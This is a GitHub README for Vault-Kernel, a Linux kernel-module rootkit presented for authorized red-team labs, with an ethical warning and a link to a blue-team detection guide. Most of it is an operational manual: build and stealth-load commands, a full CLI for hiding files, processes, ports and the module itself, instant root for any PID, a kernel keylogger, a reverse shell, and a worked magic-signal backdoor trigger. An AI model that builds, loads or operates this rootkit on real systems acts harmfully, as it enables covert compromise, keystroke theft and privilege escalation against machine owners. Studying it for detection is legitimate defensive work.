





<div align="center">
  
</div>

<div align="center">

[](https://github.com/Ruby570bocadito/Vault-Kernel/actions/workflows/ci.yml)


[**Español**](#-espa%C3%B1ol) · [**English**](#-english) · [**Changelog**](CHANGELOG.md)

</div>

---

## 🇪🇸 Español

> **⚠️ AVISO ÉTICO / LEGAL**
>
> Vault-Kernel es **exclusivamente** para auditorías de seguridad autorizadas, entornos controlados de laboratorio, investigación académica y operaciones de red team con **permiso explícito por escrito**.
>
> El uso no autorizado de este software puede violar leyes locales e internacionales. El propietario y colaboradores **no se responsabilizan** por el uso indebido. Tú eres el único responsable de cumplir con todas las leyes aplicables.
>
> **No hay razón legítima para cargar esto en un sistema que no te pertenece o para el que no tienes autorización.**

### 🖼️ Galería

<div align="center">
  
  <p><sub>Mapa completo: espacio de usuario → <code>/dev/vault_kernel</code> → espacio de kernel (los 7 módulos de hook reales de <code>src/</code>).</sub></p>
</div>

<table>
  <tr>
    <td width="55%" valign="top">
      <div align="center">
        
        <p><sub><b>Demo del CLI</b> — salida REAL del binario Go v3.11 (<code>version</code>, <code>status</code>, <code>status --json</code>, <code>magic-encode</code>, gramática estricta). Nada simulado: estos comandos funcionan sin módulo cargado.</sub></p>
      </div>
    </td>
    <td width="45%" valign="top">
      <div align="center">
        
        <p><sub><b>Panel <code>watch</code></b> — salida del renderizador real (<code>RenderWatchPanelDiff</code>) con datos de laboratorio de ejemplo: los stats que cambian se anotan <code>(was X)</code> en vivo.</sub></p>
      </div>
    </td>
  </tr>
</table>

### 📐 Arquitectura



### 🔥 Features

| Feature | Technique | Stealth |
|---------|-----------|---------|
| **Hide Files/Dirs** | Hook `getdents64`/`getdents`/`openat`/`unlinkat`/`statx` | 🟢 Invisible a `ls`, `find`, `stat` |
| **Hide Processes** | Filtro de PID en `/proc` + protección de señales | 🟢 Invisible a `ps`, `top`, `htop` |
| **Hide Ports** | Filtrado del `read()` de `/proc/net/tcp*` y `udp*` | 🟢 Invisible a `netstat`, `ss` |
| **Kernel Keylogger** | Cadena de notificadores de teclado | 🟢 Captura antes que X11/Wayland |
| **Reverse Shell** | `call_usermodehelper()` vía workqueue | 🟢 Sin ficheros en disco |
| **Magic Backdoor** | `kill(pid, 35)` con palabra + puerto codificados (hash FNV-1a) | 🟡 Sin puerto abierto |
| **Instant Root** | Mutación de `cred` propia (commit_creds) o remota (in-place) | 🟢 Root a cualquier PID |
| **Hide from lsmod** | `list_del` + `kobject_del` con recuperación segura | 🟢 Invisible a `lsmod`/sysfs |
| **Live Stats** | ioctl `GET_STATS`: versión, hooks, contadores, uptime | 🔵 Observabilidad del implante |

### ⚡ Quick Start

```bash
# Dependencias (Debian/Ubuntu)
sudo apt install build-essential linux-headers-$(uname -r) golang-go

# 1. Compilar el módulo
cd src && make

# 2. Cargar en el kernel (¡SOLO en tu laboratorio!)
sudo insmod vault_kernel.ko

# 2b. Variante sigilosa: se auto-oculta de lsmod al cargar
sudo insmod vault_kernel.ko auto_hide=1

# 3. Compilar el cliente Go
cd ../client/go && go build -ldflags="-s -w" -o vault_kernel ./cmd/vault_kernel/

# 4. Verificar
sudo ./vault_kernel status
sudo ./vault_kernel stats
```

### 📚 Todos los comandos CLI

```bash
vault_kernel status              # ¿Está cargado el módulo? (sin root)
vault_kernel status --json       # El mismo chequeo en JSON (5º documento del contrato)
vault_kernel doctor              # Diagnóstico completo del lab (dispositivo, ABI, hooks)
vault_kernel doctor --json       # El mismo diagnóstico en JSON para scripts/jq
vault_kernel stats               # Estadísticas en vivo (hooks, contadores, uptime)
vault_kernel stats --json        # Las mismas estadísticas en JSON para scripting
vault_kernel watch               # Vista en vivo de stats + ocultos (refresco 1 s, Ctrl-C para salir)
vault_kernel watch --once        # Un solo fotograma del panel, sin códigos ANSI (para scripts)
vault_kernel give-root [pid]     # Root instantáneo (por defecto: self)
vault_kernel hide-file <name>    # Ocultar fichero/directorio (hide-file -- -raro para nombres con -)
vault_kernel unhide-file <name>  # Revelar fichero/directorio
vault_kernel hide-pid <pid>      # Ocultar proceso (kill() → ESRCH)
vault_kernel unhide-pid <pid>    # Revelar proceso
vault_kernel hide-port <port>    # Ocultar puerto TCP/UDP
vault_kernel unhide-port <port>  # Revelar puerto
vault_kernel list                # Listar todo lo oculto
vault_kernel list --json         # Lo oculto en JSON ({pids, files, ports})
vault_kernel shell <ip:port>     # Reverse shell vía usermodehelper
vault_kernel magic <word>        # Activar backdoor de palabra mágica
vault_kernel magic-encode <word> <port>  # Imprimir el kill() listo para disparar
vault_kernel keylog              # Leer pulsaciones capturadas
vault_kernel keylog --follow     # Stream en vivo de pulsaciones (Ctrl-C para parar)
vault_kernel keylog --follow --timestamps  # Stream con marca de tiempo [HH:MM:SS] por evento
vault_kernel keylog --follow --output cap.log  # Stream que TAMBIEN se guarda en fichero (0600)
vault_kernel keylog --follow --stop-after 200  # Ventana FINITA: para limpio tras 200 eventos
vault_kernel keylog-clear        # Limpiar buffer del keylogger
vault_kernel capture             # Bundle de evidencia: stats + ocultos + keylog en un JSON
vault_kernel capture --out ev.json  # El mismo bundle escrito a fichero (0600)
vault_kernel capture --out ev.json --stdout  # Fichero Y JSON en stdout (resumen → stderr, seguro para | jq)
vault_kernel hide-module         # Ocultar de lsmod
vault_kernel unhide-module       # Revelar en lsmod
vault_kernel reset               # Limpiar TODAS las listas de ocultacion
vault_kernel version             # Version del cliente y ABI
```

> :bulb: **Autocompletado**: `source completions/vault_kernel.bash` en bash o instala
> `completions/vault_kernel.zsh` en tu `fpath` de zsh — ambos completan comandos y
> flags de los DOS clientes, y un test de paridad textual impide que se separen.

### 🪄 Backdoor de palabra mágica

El backdoor combina **palabra + puerto** en un solo `kill()`. El módulo compara el hash **FNV-1a-16** de la palabra; el puerto viaja en los 16 bits altos del PID:

```bash
# 1. Configurar la palabra en el módulo
sudo ./vault_kernel magic pwn

# 2. Obtener el disparador listo para usar
sudo ./vault_kernel magic-encode pwn 4444
# [*] Magic word : pwn (hash 0xBCBF)
# [*] Port       : 4444
# [*] Encoded PID: 291290303
# [*] Trigger    : kill -s 35 291290303

# 3. Desde la víctima, disparar la reverse shell a 127.0.0.1:4444
kill -s 35 291290303
```

> ℹ️ La señal es **35** = `SIGRTMIN+1` según glibc en x86_64 (el `SIGRTMIN` del kernel es 32 y **no** coincide con el de usuario — bug corregido en v3.1).

### 🧪 Testing

Lo que **se verifica automáticamente** (sin root, sin VM):

```bash
# Todo lo no-VM de una vez (tests Go + regresión de payloads + completions)
make test

# Tests unitarios Go (ioctl layout, FNV, serialización, gramática, paridad)
cd client/go && go test ./... -v -count=1        # 43 tests

# Unittest Python (gramática argparse, contrato JSON, avisos, stop-after)
python3 tests/python/test_cli_parsing.py          # 73 tests

# Tests de regresión de payloads (13 checks: sintaxis del dropper,
# round-trip del tarball, claves XOR hostiles, gcc del C stager…)
bash tests/test_payloads.sh

# Test funcional del autocompletado bash + paridad zsh (sin paquetes)
make test-completions

# Compilación real del .ko (la hace CI contra 5.15 y 6.8; local
# contra cualquier set de headers instalado)
make -C src
```

Lo que **requiere una VM de laboratorio con el módulo cargado**:

```bash
sudo insmod vault_kernel.ko
sudo bash tests/integration.sh      # suite de integración end-to-end
```

**CI** valida en cada push: `gofmt`/`go vet`/`go build`/`go test`, compilación
real del `.ko` contra los headers del runner, **matriz Docker contra headers
5.15 y 6.8**, `shellcheck` de todos los scripts, tests de payloads, test funcional de
completions y `py_compile`+`ruff` del código Python. Sin atajos: si está
verde, compila.

### 🧠 Compatibilidad de kernel

| Kernel | Estado | Notas |
|--------|--------|-------|
| **x86_64 ≥ 4.17** (4.17 – 7.x) | ✅ Soportado | ABI `pt_regs` obligatoria; `class_create()` adaptado (≥6.4). Verificado en CI contra **5.15 / 6.8** y localmente contra **6.1 / 7.1** (Debian) |
| x86_64 < 4.17 | ❌ Rechazado | El módulo **no compila** — las llamadas antiguas pasaban args directos |
| WSL2 | ❌ No soportado | Sin headers de kernel (el `.ko` sí se puede compilar vía Docker) |
| ARM64 | 🚧 Planificado | En el roadmap |

### 🛡️ Detección (para blue teams)

Este proyecto también es material de estudio defensivo. La guía
[**docs/DETECTION.md**](docs/DETECTION.md) documenta IOC concretos del
implante (nodo `/dev/vault_kernel`, logs `[vault_kernel]`, unidad de
persistencia, firma del `kill(pid, 35)`), comprobaciones rápidas en vivo,
verificación robusta (integridad de la syscall table, notifier chains,
forense de memoria con Volatility) y endurecimiento preventivo
(`module.sig_enforce`, LKRG, `kptr_restrict`, reglas auditd).
Si estás usando Vault-Kernel en un lab de red team, esa misma guía es la
que debería permitir al equipo azul ganar el ejercicio.

### 📦 Estructura

```
Vault-Kernel/
├── src/                         # Módulo kernel (C)
│   ├── main.c                   # init/exit, búsqueda de syscall table, bypass WP
│   ├── hooking.c                # instalación/remoción de hooks + RCU sync
│   ├── file_hide.c              # hooks getdents64/getdents/openat/unlinkat/statx
│   ├── proc_hide.c              # ocultación PID + guardia kill()
│   ├── net_hide.c               # filtrado read() de /proc/net/*
│   ├── keylogger.c              # keyboard notifier chain
│   ├── backdoor.c               # reverse shell + magic packet (hash FNV-1a)
│   ├── priv_esc.c               # give-root (self + PID remoto)
│   ├── stealth.c                # ocultación lsmod/sysfs reversible
│   ├── ioctl.c                  # /dev/vault_kernel (16 ioctls)
│   ├── core.h                   # headers + capa compat pt_regs + constantes
│   └── Makefile
├── client/
│   ├── vault_kernel_cli.py      # CLI Python (legacy, paridad con Go)
│   └── go/                      # CLI Go (principal, binario único)
│       ├── cmd/vault_kernel/    # 21 comandos
│       └── internal/vaultkernel/# wrapper ioctl + render del panel + tests
├── completions/                 # Autocompletado bash + zsh (ambos clientes)
├── payloads/                    # Generador de payloads (Python)
├── docker/                      # Build + red de laboratorio (compose único)
├── tests/
│   ├── integration.sh           # Suite de integración (VM con módulo cargado)
│   ├── test_payloads.sh         # Regresión de payloads (corre en cualquier sitio)
│   └── test_completions.sh      # Test funcional bash + paridad zsh
├── docs/
│   ├── ADR.md                   # Decisiones de arquitectura
│   ├── DETECTION.md             # Guía de detección para blue teams
│   ├── SCHEMAS.md               # Contrato JSON (índice): stats/list/doctor/capture/status
│   ├── schemas/                 # Contrato por comando (stats, list, doctor, capture, status)
│   ├── agentes/                 # Informes de ronda del equipo de agentes IA
│   └── images/                  # Banner + arquitectura + demo.gif + watch-panel.gif
├── CHANGELOG.md                 # Historial detallado v3.0 → v3.11
└── .github/workflows/ci.yml     # CI (8 jobs: Go, kernel runner, kernel matrix docker 5.15/6.8, shellcheck, completions, payloads, python+tests)
```

### 🔄 Novedades v3.11

Resumen de la ronda de mantenimiento — la lista completa está en
[CHANGELOG.md](CHANGELOG.md):

- **README visual, con salida real**: banner nuevo (sin versión incrustada — el badge manda), [diagrama de arquitectura renderizado](docs/images/architecture.png), **demo.gif regenerado con la salida REAL del binario v3.11** (el anterior era una sesión simulada estática de la era v3.1) y un segundo GIF con el panel `watch` y sus anotaciones de cambios, generado por el renderizador real de Go.
- **`capture --out FILE --stdout`** (Go y Python): escribe el bundle 0600 Y imprime el JSON en stdout; el resumen se mueve a stderr para que `capture --out ev.json --stdout | jq` siga siendo un pipeline limpio. Cierra el backlog de v3.9.
- **`keylog --follow --stop-after N`** (Go y Python): ventana de captura FINITA — el stream termina limpio tras N eventos (misma despedida que Ctrl-C/SIGTERM), ideal para scripts de laboratorio.
- **Paridad POSIX `--`**: los operandos posicionales aceptan la forma `hide-file -- -fichero` en ambos clientes y rechazan el `-fichero` desnudo (antes Go lo mandaba al kernel y Python lo rechazaba: dos gramáticas para el mismo comando). Los números negativos (`give-root -5`) siguen funcionando en ambos.
- **El aviso de no-root respeta el contrato sin-root**: `status`, `version`, `help` y `magic-encode` ya no imprimen `[!] Warning: not running as root` (el CLI Python además lo manda a stderr: contaminaba el stdout de `status --json` y rompía `| jq` justo en el flujo sin root que v3.10 creó).
- **Autocompletado zsh** (`completions/vault_kernel.zsh`) con paridad textual verificada por test contra el gemelo bash; ambos actualizados con `--stdout` y `--stop-after`. Suite: **43 tests Go + 73 unittest Python + 15 checks de completions + 13 de payloads**.

---

## 🇬🇧 English

> **⚠️ ETHICAL / LEGAL WARNING**
>
> Vault-Kernel is **exclusively** for authorized security audits, controlled lab environments, academic research and red team operations with **explicit written permission**.
>
> Unauthorized use of this software may violate local and international laws. The owner and contributors are **not responsible** for misuse. You are solely responsible for complying with all applicable laws.

Vault-Kernel is a Linux **LKM rootkit engine** for red team training and authorized lab work: syscall table hooking with the modern **pt_regs ABI**, file/process/port hiding, a kernel keylogger, a magic-packet backdoor and in-place credential escalation — controlled through a zero-dependency Go CLI over `/dev/vault_kernel`.

**Quick start:** `cd src && make` → `sudo insmod vault_kernel.ko` (lab only) → `cd client/go && go build -ldflags="-s -w" -o vault_kernel ./cmd/vault_kernel/` → `sudo ./vault_kernel stats`.

<div align="center">
  
</div>

**Highlights**

- **Modern syscall ABI** — hooks use `struct pt_regs` argument extraction; the module refuses to build against pre-4.17 kernels instead of silently corrupting every syscall.
- **Builds everywhere ≥ 4.17** — verified against the CI Docker matrix (5.15 / 6.8) and modern Debian headers; `class_create()` API adapted for 6.4+.
- **Fully hidden files** — `getdents64`/`getdents`/`openat`/`unlinkat`/`statx` are hooked, so `ls`, `find`, `stat` and `lstat` all come up empty.
- **Working magic backdoor** — `kill(pid, 35)` with `(port << 16) | fnv1a16(word)`; identical FNV-1a implementation in C, Go and Python, verified by unit tests.
- **Real privilege escalation** — self-rooting via `commit_creds()`, arbitrary-PID rooting via in-place `cred` mutation under `task_lock()`.
- **Live observability** — `stats` reports version, hooks, counters and uptime; `watch` repaints it live with change annotations, `watch --once` snapshots it; five JSON documents (`stats`, `list`, `doctor`, `capture`, `status`) for scripting, the last one usable **without root**.
- **Finite capture windows** — `keylog --follow --stop-after N` ends the stream cleanly after N events; `--output FILE` transcripts every event 0600.
- **One-shot teardown** — `vault_kernel reset` clears every hidden file, PID and port through a single ioctl.
- **Two completion systems** — bash and zsh, textually-pinned parity by test; both cover the shared command surface.
- **Honest CI** — eight jobs (Go toolchain, real `.ko` compilation on the runner, Docker matrix against 5.15/6.8 headers, shellcheck, functional bash-completion tests, payload regression, Python with unit tests); no masked failures.

**Testing without a VM:** `make test` runs the Go suite, the payload regression and the completion checks (43 + 13 + 15); `python3 tests/python/test_cli_parsing.py` adds 73 parser/contract tests. Integration tests need a lab VM with the module loaded: `sudo bash tests/integration.sh`.

**Compatibility:** x86_64 kernels ≥ 4.17, up to 7.x (`class_create()` API adapted). WSL2 and ARM64 are not supported. See the Spanish section above for the full feature table, command reference and compatibility matrix.

**License:** MIT — see [LICENSE](LICENSE). Built for learning; use it only where you have written permission.

<div align="center">
  <sub>Built with 🔥 by <a href="https://github.com/Ruby570bocadito">Ruby570bocadito</a> — Vault-Kernel v3.11</sub>
</div>
